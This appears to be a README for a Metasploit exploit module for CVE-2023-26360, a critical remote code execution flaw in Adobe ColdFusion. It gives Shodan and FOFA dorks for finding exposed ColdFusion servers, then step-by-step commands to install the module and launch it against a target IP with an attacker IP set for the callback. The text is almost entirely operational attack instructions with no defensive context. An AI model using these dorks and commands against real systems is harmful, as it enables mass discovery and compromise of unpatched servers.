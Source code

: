 # CVE-2023-26360
![](https://img.shields.io/static/v1?label=Product&message=Adobe%20Cold%20Fusion&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2018%20Update%2015%20(and%20earlier)%20and%202021%20Update%205%20(and%20earlier)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)
  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  

```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
